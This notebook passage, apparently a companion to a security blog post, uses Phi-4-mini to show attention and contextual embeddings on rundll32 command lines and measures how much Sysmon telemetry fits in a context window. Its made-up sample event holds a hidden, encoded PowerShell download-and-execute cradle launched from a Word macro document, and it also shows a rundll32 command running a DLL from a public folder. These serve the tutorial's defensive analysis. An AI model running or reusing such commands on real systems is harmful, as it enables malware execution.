32 **layers**, one after another. Each layer updates every token's vector using the tokens that came
before it. If it helps, picture a 32-stage enrichment pipeline in which each stage adds context to
every event from the events earlier in the stream.

The next cell downloads the rest of the weights the first time (about 8 GB in all) and needs a GPU.

First, the post's warm-up example: ask the model to continue "The wolf jumped over the".

In [15]:
from transformers import AutoModelForCausalLM

# Sections 7 and 8 need a GPU. Without one, each of their cells prints a note and does nothing,
# so "Run All" still reaches section 9, which runs on a laptop.
HAS_GPU = torch.cuda.is_available()

if HAS_GPU:
    # The full model: about 8 GB on first download.
    model = AutoModelForCausalLM.from_pretrained(
        MODEL,
        revision=REVISION,
        device_map="auto",             # put the model on the GPU
        torch_dtype=torch.float16,     # 16-bit numbers instead of 32-bit: half the memory, slightly less precise
        attn_implementation="eager",   # the plain attention code, which lets us read the attention weights
    )
    model.eval()                       # we are only reading the model, not training it

    print(f"Loaded {MODEL} on {model.device}")
else:
    print("No GPU found, so sections 7 and 8 are skipped. Section 9 runs on a laptop.")

Loaded microsoft/Phi-4-mini-instruct on cuda:0


In [16]:
if not HAS_GPU:
    print("Skipped: this section needs a GPU.")
else:
    sentence = "The wolf jumped over the"
    # The sentence's token IDs, moved to the GPU where the model is
    wolf = tokenizer(sentence, return_tensors="pt", add_special_tokens=False).to(model.device)

    with torch.no_grad():                                   # we are not training, so skip the bookkeeping training needs
        wolf_out = model(**wolf, output_attentions=True)   # ** passes the dict's entries as named arguments

    # logits[0, -1] = the scores for whatever comes after the last word (first sentence, last position).
    # Softmax turns those 200,064 scores into probabilities that add up to 100% (dim=-1: across all of them).
    next_word = torch.softmax(wolf_out.logits[0, -1].float(), dim=-1)
    top = torch.topk(next_word, 3)                                       # the 3 most likely next tokens
    for p, i in zip(top.values, top.indices):
        print(f"{tokenizer.decode([i]).strip():6s} {p.item():.0%}")      # decode turns a token ID back into text

dog    24%
fence  23%
lazy   8%


For every position, the model's output is one raw score for each of the 200,064 tokens in its
vocabulary. These scores are called **logits**. **Softmax** turns them into percentages that add
up to 100%, and we printed the top three. Fence is a plausible continuation because wolves can jump over fences. Dog and
lazy may reflect the familiar pattern "The quick brown fox jumps over the lazy dog," although the
predictions alone cannot show whether the model memorized that sentence.

Now look inside. Each layer runs 24 attention **heads**: 24 separate attention calculations side by
side, each free to focus on different things. Below is one of them, head 0 in the last layer, the head shown in Figure 5.

For each word, the head calculates how much to draw from itself and each earlier word, and the
shares in a row add up to 100%. Whatever a word draws from earlier words comes out of its own share.
A word can never look at words that come after it. That backward-only rule is what
"causal" means in `AutoModelForCausalLM`.

Inside each head, every token gets three vectors. Its **query** describes what it is looking for,
its **key** describes what it offers, and its **value** is the information it passes on. The head
compares a token's query with its own key and the key of every earlier token. The better the match,
the larger the share. Those shares are the percentages in the table below. The token's new vector is
a blend of those tokens' values, weighted by the shares. If it helps, think of a SIEM search: the
query is your search string, the keys are the indexed fields, the values are the event contents that
come back, and the shares are relevance scores.

In [17]:
if not HAS_GPU:
    print("Skipped: this section needs a GPU.")
else:
    wolf_words = [t.replace("Ġ", "") for t in tokenizer.convert_ids_to_tokens(wolf["input_ids"][0])]   # drop the Ġ space marker

    last_layer = len(wolf_out.attentions) - 1   # Python counts from 0, so the 32nd layer is number 31
    head = 0
    # [0, head] = first sentence, chosen head: a 5 x 5 table. .cpu() copies it off the GPU so pandas can use it.
    grid = wolf_out.attentions[last_layer][0, head].float().cpu()

    # Fractions to whole percentages. Rows: each word. Columns: the words it draws from.
    # display() shows the table; inside an if-block, Jupyter does not show the last line by itself.
    display(pd.DataFrame((grid * 100).round().int().numpy(), index=wolf_words, columns=wolf_words))

,The,wolf,jumped,over,the
The,100,0,0,0,0
wolf,0,100,0,0,0
jumped,0,23,77,0,0
over,0,12,49,38,0
the,0,8,41,38,14


Read the last row: the final "the" draws most on "jumped" and "over". Everything above the diagonal
(the line of cells from top left to bottom right) is 0, because those are later words. "The" puts
100 on itself because there is nothing earlier to look at.

Two cautions from the post. These weights are not the model's prediction. That came from the
softmax over the last word's output, in the cell above. And they are not an explanation of why a
model reached an answer.

## 8. Context Changes a Token's Vector, but Only Looking Backward

Everything so far has been **static**: one fixed vector per token, looked up in a table. That is
where Part 1 got stuck.

This is the problem a Transformer solves. As the vectors pass up through the 32 layers, attention
reshapes each token's vector using the tokens before it. Researchers call these per-layer token
vectors **hidden states**. The one out of the last layer is a **contextual** embedding. The same
token can get a different vector in a different command, depending on what came before it.

To see it, we need the same token in two different commands. The cell below runs the two rundll32
commands from Figure 1, which start the same way and then diverge, one routine and one not.
`output_hidden_states=True` keeps the hidden states after every layer: entry 0 is the static
embedding and entry 32 is the model's final output.

In [18]:
if not HAS_GPU:
    print("Skipped: this section needs a GPU.")
else:
    pair = {
        "routine": r"rundll32.exe printui.dll,PrintUIEntry /in /n \\fileserver\HP-12",
        "suspicious": r"rundll32.exe C:\Users\Public\update.dll,DllRegisterServer",
    }

    # One pass through the model per command, keeping every layer's vectors and attention weights.
    runs = {}
    for label, command in pair.items():
        encoded = tokenizer(command, return_tensors="pt").to(model.device)   # token IDs, moved to the GPU
        with torch.no_grad():
            out = model(**encoded, output_hidden_states=True, output_attentions=True)
        runs[label] = {
            "tokens": tokenizer.convert_ids_to_tokens(encoded["input_ids"][0]),
            # .float().cpu() copies each result off the GPU as standard 32-bit numbers
            "layers": [h[0].float().cpu() for h in out.hidden_states],     # 33 entries: 0 = static, 32 = final output
            "attention": [a[0].float().cpu() for a in out.attentions],     # 32 layers, each 24 heads x tokens x tokens
        }

    routine, suspicious = runs["routine"], runs["suspicious"]
    print("routine    :", routine["tokens"])
    print("suspicious :", suspicious["tokens"], "\n")

    # Every token the two commands share, compared at its first position in each.
    rows = []
    for token in dict.fromkeys(routine["tokens"]):   # each token once, in order of first appearance
        if token in suspicious["tokens"]:
            i, j = routine["tokens"].index(token), suspicious["tokens"].index(token)   # .index() = first position
            rows.append({
                "token": token,
                "positions (routine/suspicious)": f"{i}/{j}",
                "similarity before context (layer 0)": round(cos(routine["layers"][0][i], suspicious["layers"][0][j]), 3),
                "similarity after context (layer 32)": round(cos(routine["layers"][32][i], suspicious["layers"][32][j]), 3),
            })

    # Lowest similarity first; reset_index renumbers the rows 0, 1, 2...
    display(pd.DataFrame(rows).sort_values("similarity after context (layer 32)").reset_index(drop=True))

routine    : ['r', 'und', 'll', '32', '.exe', 'Ġprint', 'ui', '.dll', ',', 'Print', 'UI', 'Entry', 'Ġ/', 'in', 'Ġ/', 'n', 'Ġ\\\\', 'files', 'erver', '\\', 'HP', '-', '12']
suspicious : ['r', 'und', 'll', '32', '.exe', 'ĠC', ':\\', 'Users', '\\', 'Public', '\\', 'update', '.dll', ',D', 'll', 'Register', 'Server'] 



,token,positions (routine/suspicious),similarity before context (layer 0),similarity after context (layer 32)
0,.dll,7/12,1.0,0.811
1,\,19/8,1.0,0.906
2,r,0/0,1.0,1.000
3,und,1/1,1.0,1.000
4,32,3/3,1.0,1.000
5,ll,2/2,1.0,1.000
6,.exe,4/4,1.0,1.000


### What that table shows

Before context, every shared token scores **1.000**. That has to happen. The static vector is a
table lookup, so the same token ID always returns the same numbers.

After context:

- `.dll` drops to about **0.81**. By the time the model reaches `.dll`, it has read `printui` in one
  command and `C:\Users\Public\update` in the other. Same token, different vector. That is what
  "contextual" means.
- `\` also moves, to 0.906. It sits at position 19 in one command and position 8 in the other, so
  it has read different things before it.
- `r`, `und`, `ll`, `32` and `.exe` stay at exactly **1.000**. That is not because they ignore
  other tokens. Each one draws on the tokens before it, just as the words in section 7 do, but both
  commands open with the identical `rundll32.exe`, so the blend comes out the same in both. Phi-4-mini
  only looks backward, so the different text later in each command can't reach them.

This is a different measurement from section 7. The attention table there showed how one word splits
its attention within a single sentence. Here we compare the same token across two different commands.

An analyst works the same way. `rundll32.exe` on its own tells you little. With the rest of the
command line it means "printer setup" or "run a DLL from Public". The final vector is the model's
version of reading the whole line.

The table compares only layer 0 and the last layer. The post's Figure 6 follows the shared tokens through every layer in between. Here is the same measurement, every fourth layer:

In [19]:
if not HAS_GPU:
    print("Skipped: this section needs a GPU.")
else:
    # (position in routine, position in suspicious) for each token we follow
    dll = (routine["tokens"].index(".dll"), suspicious["tokens"].index(".dll"))
    exe = (routine["tokens"].index(".exe"), suspicious["tokens"].index(".exe"))

    # For each of the 33 layer outputs, compare the token in one command with the same token in the other.
    table = pd.DataFrame({
        ".dll": [cos(a[dll[0]], b[dll[1]]) for a, b in zip(routine["layers"], suspicious["layers"])],
        ".exe (part of rundll32.exe)": [cos(a[exe[0]], b[exe[1]]) for a, b in zip(routine["layers"], suspicious["layers"])],
    }).round(2)
    table.index.name = "layer"

    lowest = table[".dll"].idxmin()   # the layer with the lowest score
    print(f".dll is least alike at layer {lowest} ({table.loc[lowest, '.dll']:.2f}) and ends at {table.loc[32, '.dll']:.2f}.")
    display(table.iloc[::4])   # rows 0, 4, 8, ... 32: every fourth layer

.dll is least alike at layer 30 (0.69) and ends at 0.81.


,.dll,.exe (part of rundll32.exe)
layer,,
0,1.00,1.0
4,0.93,1.0
8,0.90,1.0
12,0.84,1.0
16,0.84,1.0
20,0.83,1.0
24,0.78,1.0
28,0.74,1.0
32,0.81,1.0


`.dll` drifts apart, unevenly, as the layers add context. It is least alike at layer 30 (0.69),
then moves partway back together in the last two layers, ending at 0.81. The `rundll32.exe` tokens stay
at exactly 1.0 the whole way.

Finally, Figure 7: which earlier tokens does `.dll` draw on? We average the 24 heads of a middle layer (layer 17 of 32, the layer Figure 7 uses) and list how `.dll` splits its attention across itself and the tokens before it.

In [20]:
if not HAS_GPU:
    print("Skipped: this section needs a GPU.")
else:
    middle = 16   # layer 17 of 32; Python counts from 0

    for label, run in runs.items():
        dll_at = run["tokens"].index(".dll")   # position of .dll in this command
        shares = run["attention"][middle].mean(dim=0)[dll_at]     # average the 24 heads, then take the row for .dll
        print(f"{label}:")
        # every token up to and including .dll, with the Ġ space marker removed
        pieces = [run["tokens"][i].replace("Ġ", "") for i in range(dll_at + 1)]
        # "token share" for each, separated by " | "; .1% prints a percentage with one decimal
        print("   " + " | ".join(f"{t} {shares[i].item():.1%}" for i, t in enumerate(pieces)), "\n")

routine:
   r 77.5% | und 0.2% | ll 1.3% | 32 1.8% | .exe 2.7% | print 3.1% | ui 4.1% | .dll 9.2% 

suspicious:
   r 60.7% | und 0.4% | ll 2.7% | 32 2.7% | .exe 3.1% | C 5.4% | :\ 3.0% | Users 0.7% | \ 0.4% | Public 1.5% | \ 1.4% | update 4.4% | .dll 13.5% 



### Reading the attention

Most of `.dll`'s attention lands on the very first token, `r`, in both commands. That is a known
effect called an *attention sink*: heads park attention they do not need on the first token
(Xiao et al., 2024). Look past it and past `.dll` itself, and what is left is spread thin, a few
percent per token, but it goes to different places. `ui` and `print` lead in the routine command,
`C` and `update` in the suspicious one.

This has a practical consequence for prompts. The model only looks backward, so if your question
comes after 40 KB of logs, the vectors for those logs were built before the model saw the
question. So state the task before the data, and restate the question after it. The task at the
top shapes how the model reads the logs. The question at the bottom is fresh when it answers.
[Anthropic](https://platform.claude.com/docs/en/build-with-claude/prompt-engineering/claude-prompting-best-practices)
and [Google](https://ai.google.dev/gemini-api/docs/long-context) both recommend putting the
question at the end, and [OpenAI](https://developers.openai.com/cookbook/examples/gpt4-1_prompting_guide)
found instructions at both ends worked best.

## 9. Two Days of Telemetry Do Not Fit in Any Context Window

The **context window** is the most tokens a model can take in at once, prompt and answer combined.
For Phi-4-mini it is 131,072. Think of it as a hard cap on query results: anything past the cap is
not seen at all.

Before asking what a model makes of your telemetry, ask how much of it fits. Two numbers decide
that: how many tokens one event costs, and how many the model can hold. Both are easy to measure.

The cells below use one made-up sample event and the Atomic Red Team corpus. The post's Figure 8
uses a real export of 16,248 events, which stays private. The last cell of this section runs the
same measurement on your own Sysmon export.

In [21]:
def n_tokens(text):
    """How many tokens Phi-4-mini's tokenizer turns this text into."""
    return len(tokenizer(text, add_special_tokens=False)["input_ids"])


def kv(fields):
    """Render an event as key=value lines."""
    return "\n".join(f"{k}={v}" for k, v in fields.items())


ctx = AutoConfig.from_pretrained(MODEL, revision=REVISION).max_position_embeddings   # the context window, from the model's settings
budget = int(ctx * 0.8)          # hold about a fifth back for instructions and the model's answer
# {ctx:,} prints the number with thousands separators
print(f"Context window: {ctx:,} tokens -> usable for telemetry: {budget:,}")

Context window: 131,072 tokens -> usable for telemetry: 104,857


### One event, four ways

The same process-creation event rendered as the nine fields an analyst reads, or as the full event
with its GUIDs, hashes and file metadata, each as key=value or as indented JSON. The values are made up.

The last column uses 40,000 events, the export from the post's opening example, and divides by
the full window rather than the 80% budget.

In [22]:
analyst_fields = {
    "UtcTime": "2026-09-28 13:04:56.117",
    "Computer": "WKSTN-04",
    "User": "CONTOSO\\j.rivera",
    "ProcessId": "9044",
    "Image": "C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe",
    "CommandLine": ("powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0"
                    "ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnAA=="),
    "ParentProcessId": "6620",
    "ParentImage": "C:\\Program Files\\Microsoft Office\\root\\Office16\\WINWORD.EXE",
    "ParentCommandLine": ('"C:\\Program Files\\Microsoft Office\\root\\Office16\\WINWORD.EXE" '
                          '/n "C:\\Users\\j.rivera\\Downloads\\invoice_0928.docm"'),
}
# the fields a raw export also carries, which an analyst rarely reads
noise_fields = {
    "ProcessGuid": "{a1b2c3d4-0002-66f3-2b00-000000000700}",
    "ParentProcessGuid": "{a1b2c3d4-0003-66f3-3c00-000000000700}",
    "LogonGuid": "{a1b2c3d4-0000-66f3-0a3f-120000000000}",
    "LogonId": "0x3f120a", "TerminalSessionId": "1", "IntegrityLevel": "Medium",
    "Hashes": ("SHA1=1D3F5A7C9E2B4D6F8A0C2E4B6D8F0A2C4E6B8D0F,"
               "MD5=9F1C2E5B8A7D4C3E0B6A5D4C3B2A1908,"
               "SHA256=1D3F5A7C9E2B4D6F8A0C2E4B6D8F0A2C4E6B8D0F2A4C6E8B0D2F4A6C8E0B2D4F,"
               "IMPHASH=A2B4C6D8E0F2A4B6C8D0E2F4A6B8C0D2"),
    "Description": "Windows PowerShell", "Product": "Microsoft Windows Operating System",
    "Company": "Microsoft Corporation", "OriginalFileName": "PowerShell.EXE",
    "CurrentDirectory": "C:\\Users\\j.rivera\\Downloads\\",
    "FileVersion": "10.0.26200.1 (WinBuild.160101.0800)",
    "RuleName": "technique_id=T1059.001,technique_name=PowerShell",
}
full_event = {**analyst_fields, **noise_fields}   # merge the two dicts into one

renderings = {
    "analyst fields, key=value": kv(analyst_fields),
    "analyst fields, indented JSON": json.dumps(analyst_fields, indent=2),
    "full event, key=value": kv(full_event),
    "full event, indented JSON": json.dumps(full_event, indent=2),
}

rows = []
for name, text in renderings.items():
    t = n_tokens(text)
    rows.append({
        "format": name,
        "tokens per event": t,
        "events per prompt (80% of the window)": budget // t,   # // = whole-number division
        "full windows for 40,000 events": round(40_000 * t / ctx),   # 40_000 is just 40000; _ separates digits
    })
display(pd.DataFrame(rows))

,format,tokens per event,events per prompt (80% of the window),"full windows for 40,000 events"
0,"analyst fields, key=value",221,474,67
1,"analyst fields, indented JSON",255,411,78
2,"full event, key=value",593,176,181
3,"full event, indented JSON",672,156,205


### Not specific to Phi-4-mini

The post says these counts are not specific to Phi-4-mini, because OpenAI's o200k tokenizer, used by GPT-4o, gives
the same numbers. This cell checks that claim on every Atomic Red Team command.

In [23]:
import tiktoken

o200k = tiktoken.get_encoding("o200k_base")   # OpenAI's tokenizer for GPT-4o (downloaded once, then cached)

# For each command, does o200k produce the same number of tokens as Phi-4-mini's tokenizer?
same = sum(n_tokens(c) == len(o200k.encode(c, disallowed_special=())) for c in art["command"])
print(f"Same token count on {same:,} of {len(art):,} Atomic Red Team commands")

Same token count on 1,214 of 1,214 Atomic Red Team commands


### Base64 and GUIDs cost more

The post's checklist says to decode base64 and to mask GUIDs. This cell measures what each
costs in characters per token (higher is cheaper).

In [24]:
# A base64 blob: 40 or more base64 characters in a row, then up to two "=" padding characters.
b64 = re.compile(r"[A-Za-z0-9+/]{40,}={0,2}")
# every base64 match in every command
blobs = [m.group(0) for c in art["command"] for m in b64.finditer(c)]
plain_cmds = [c for c in art["command"] if not b64.search(c)]   # commands with no base64 at all


def chars_per_token(text):
    """Characters per token: higher is cheaper."""
    return len(text) / n_tokens(text)


print(f"base64 blobs:      median {np.median([chars_per_token(b) for b in blobs]):.1f} characters per token ({len(blobs)} blobs in the corpus)")
print(f"ordinary commands: median {np.median([chars_per_token(c) for c in plain_cmds]):.1f} characters per token\n")

for guid in [noise_fields["ProcessGuid"], noise_fields["LogonGuid"], "c9bf9e57-1685-4c89-bafb-ff5af830be8a"]:
    print(f"GUID {guid}: {chars_per_token(guid):.1f} characters per token")

base64 blobs:      median 1.8 characters per token (91 blobs in the corpus)
ordinary commands: median 3.4 characters per token

GUID {a1b2c3d4-0002-66f3-2b00-000000000700}: 1.5 characters per token
GUID {a1b2c3d4-0000-66f3-0a3f-120000000000}: 1.4 characters per token
GUID c9bf9e57-1685-4c89-bafb-ff5af830be8a: 1.6 characters per token


### Reading the budget

What the numbers say:

- Format is not free. For this sample event, trimming to the fields an analyst reads and dropping
  JSON's braces and quotes roughly triples how many events fit in one prompt. On the post's real
  export the gain is smaller, about 2.6 times against the raw XML (the last cell of this section
  measures that), because long command lines appear in every format.
- **A 40,000-event export never had a chance.** It needs between 67 and 205 Phi-4-mini context
  windows depending on format. A model handed that export cannot summarize all of it. Something has
  to decide what to drop, so make that choice in your own pipeline.
- Encoded payloads and random strings cost about double. Base64 runs at about 1.8 characters per
  token against about 3.4 for ordinary commands, and GUIDs are worse still. Decode base64 and mask
  GUIDs before the prompt. You pay less and the model sees more. (PowerShell's `-EncodedCommand`
  is base64 of UTF-16LE text, so decode it as UTF-16LE.)

None of these are model limits. They are choices you make before the prompt.

### Try it on your own export

Export Sysmon process-creation events (event ID 1) to an `.evtx` file, set `EVTX_PATH` below and run
the cell. It counts tokens in the four formats above plus the raw XML, the five formats in Figure 8, and how many command lines are unique.
It prints totals only. Nothing from your events is displayed or saved. Requires `pip install evtx`.

In [25]:
EVTX_PATH = None   # for example r"C:\exports\sysmon.evtx"

ANALYST_FIELDS = ["UtcTime", "Computer", "User", "ProcessId", "Image", "CommandLine",
                  "ParentProcessId", "ParentImage", "ParentCommandLine"]

if EVTX_PATH is None:
    print("Set EVTX_PATH to a Sysmon .evtx export to measure your own telemetry.")
else:
    import html
    from evtx import PyEvtxParser

    # One empty list per format; each event adds its token count to every list.
    counts = {name: [] for name in ["raw XML, as exported", "full event, indented JSON", "full event, key=value",
                                    "analyst fields, indented JSON", "analyst fields, key=value"]}
    command_lines = set()   # a set keeps each command line once, so its size = unique command lines
    for record in PyEvtxParser(EVTX_PATH).records():
        xml = record["data"]   # the event as XML text
        # Sysmon event ID 1 = process creation; skip everything else
        if "Microsoft-Windows-Sysmon" not in xml or "<EventID>1</EventID>" not in xml:
            continue
        # the text inside <Computer>...</Computer>, or "" if the event has none
        computer = re.search(r"<Computer>([^<]*)</Computer>", xml)
        full = {"Computer": computer.group(1) if computer else ""}
        # every <Data Name="X">value</Data> pair in the event becomes X: value.
        # Values are XML-escaped (&amp; &quot; ...), so html.unescape turns them back into the text an analyst sees.
        full.update({k: html.unescape(v) for k, v in re.findall(r'<Data Name="(\w+)">([^<]*)</Data>', xml)})
        analyst = {k: full.get(k, "") for k in ANALYST_FIELDS}   # .get(k, "") = the value, or "" if missing
        command_lines.add(full.get("CommandLine", ""))

        counts["raw XML, as exported"].append(n_tokens(xml))
        counts["full event, indented JSON"].append(n_tokens(json.dumps(full, indent=2)))
        counts["full event, key=value"].append(n_tokens(kv(full)))
        counts["analyst fields, indented JSON"].append(n_tokens(json.dumps(analyst, indent=2)))
        counts["analyst fields, key=value"].append(n_tokens(kv(analyst)))

    events = len(counts["raw XML, as exported"])
    print(f"{events:,} process-creation events, {len(command_lines):,} unique command lines "
          f"({len(command_lines) / events:.0%})\n")
    for name, per_event in counts.items():
        total = sum(per_event)
        # :30s, :4d and :4.1f pad each value to a fixed width so the columns line up
        print(f"{name:30s} median {int(np.median(per_event)):4d} tokens per event | total {total / 1e6:4.1f}M tokens "
              f"| {total / ctx:3.0f}x Phi-4-mini's window")

Set EVTX_PATH to a Sysmon .evtx export to measure your own telemetry.


## Takeaway across all four representations

| Representation | One vector per... | Learned? | Same token, different command |
| --- | --- | --- | --- |
| Bag-of-Words | command (token counts) | no | identical counts |
| Word2Vec | word | yes, from co-occurrence | **identical vector** |
| LLM input embedding | token (a piece of a word) | yes, during training | **identical vector** |
| LLM final hidden state | token, in context | computed from the tokens before it | **can differ** |

Only the last row gives the same token a different vector depending on what came before it. That
is what lets a model treat `.dll` after `printui` differently from `.dll` after
`C:\Users\Public\update`.

### What this does *not* tell you

- Similarity is not a verdict. A similarity of 0.81 is not "81% malicious". Nothing here was
  trained to classify anything.
- One model, one pair. Every Part 2 number comes from Phi-4-mini, and the context comparison uses a
  single pair of commands. It shows the mechanism. It says nothing about how often it matters.
- Our corpus was offensive-only. The Word2Vec model in Part 1 learned how attacker tooling
  clusters, not how it differs from normal administration.

### Where to go next

Run section 8 on two commands from your own environment, one routine and one not, and see whether
the contextual vectors pull apart. Then point the last cell of section 9 at your own Sysmon export.
Part 1 takes your own commands too: swap them in for the six examples and re-run it. It is CPU-only
and takes seconds.